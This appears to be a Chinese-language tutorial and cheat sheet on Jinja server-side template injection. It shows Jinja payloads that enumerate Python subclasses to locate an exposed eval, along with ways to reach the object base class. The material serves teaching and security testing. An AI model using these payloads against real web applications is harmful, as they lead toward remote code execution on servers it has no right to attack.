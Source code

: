 接下来就是找和文件或者命令有关的函数，不用担心，内建函数在Python官方拥有成熟的文档，你可以随时查阅：[内置函数](https://docs.python.org/zh-cn/3/library/functions.html)

```
eval()
exec()
open()
__import__()
```



### 模板语法示例

`{{ variable_name }}`：显示一个变量的值。例如 `{{ config }}` 可以显示配置文件的值。

`{% if ... %} ... {% endif %}`：条件语句，用于基于特定条件显示不同的内容。

`{% for item in sequence %} ... {% endfor %}`：循环语句，用于遍历序列（如列表或字典）并对每个元素执行操作。

`{{ variable_name|filter_name }}`：对变量应用过滤器。

```python
## 序号查找
{% set ns = namespace(counter=0) %}
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ ns.counter}}
    {% endif %}
    {% set ns.counter = ns.counter + 1 %}
{% endfor %}

## 类名格式化输出
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__name__ }} <br>
    {% endif %}
{% endfor %}
```

## Python模板注入绕过技巧



## Jinja SSTI 备忘录

#### 基类

```python
# bases 会返回元组形式 
>>> __bases__[0] == __base__
#因为 mro 会显示继承顺序，而所有类最终都继承自一个特殊的基类 object，所以 __mro__[-1] 总是能拿到基类
>>> __base__*N == __mro__[-1] 

[].__class__.__base__
''.__class__.__base__
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[-1] # 需要导入过 request 模块
dict.__class__.__mro__[-1]
config.__class__.__base__.__base__
config.__class__.__base__.__base__
```
